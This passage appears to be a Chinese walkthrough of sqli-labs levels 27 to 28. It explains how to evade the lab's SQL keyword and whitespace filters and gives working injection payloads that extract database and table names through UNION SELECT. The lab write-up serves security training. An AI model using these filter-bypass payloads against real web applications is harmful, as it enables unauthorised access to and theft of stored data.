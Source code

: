 大小写混写绕过

```sql
?id=0'unIon%0bselEct%0b1,(seleCt%0bgroup_concat(table_name)%0bfrom%0binformation_schema.tables%0bwhere%0btable_schema=database()),'3
```

![55](/medias/sqli-labs/55.png)

## Less-27a

双引号类型，其他似乎都一样


```sql
?id=0"%0bUnIon%0bSeLeCt%0b1,(seLect%0bgroup_concat(schema_name)%0bfrom%0binformation_schema.schemata),"3
```

![54](/medias/sqli-labs/54.png)

## Less-28

不区分大小写来过滤，会把`union*select`不区分大小写的过滤掉

```php
$id= preg_replace('/[\/\*]/',"", $id);
$id= preg_replace('/[--]/',"", $id);
$id= preg_replace('/[#]/',"", $id);
$id= preg_replace('/[ +]/',"", $id);
$id= preg_replace('/[ +]/',"", $id);
$id= preg_replace('/union\s+select/i',"", $id);
```

测试回显来判断后台sql语句应该是`')`包裹的

```sql
?id=0')%0bor%0b1=('1
```

![56](/medias/sqli-labs/56.png)


畸形双写绕过，`union`里套一个`union%0aselect`，利用正则吞掉里面的`union\sselect`，太奇怪了，正则`union\sselect`里的`\s`不能匹配`%0b`


```sql
?id=0')%0buniounion%0aselectn%0bselect%0b1,2,('3
```

![57](/medias/sqli-labs/57.png)

爆库

```sql
?id=0')%0buniounion%0aselectn%0bselect%0b1,(select%0agroup_concat(table_name)%0afrom%0ainformation_schema.tables%0awhere%0atable_schema=database()),('3
```
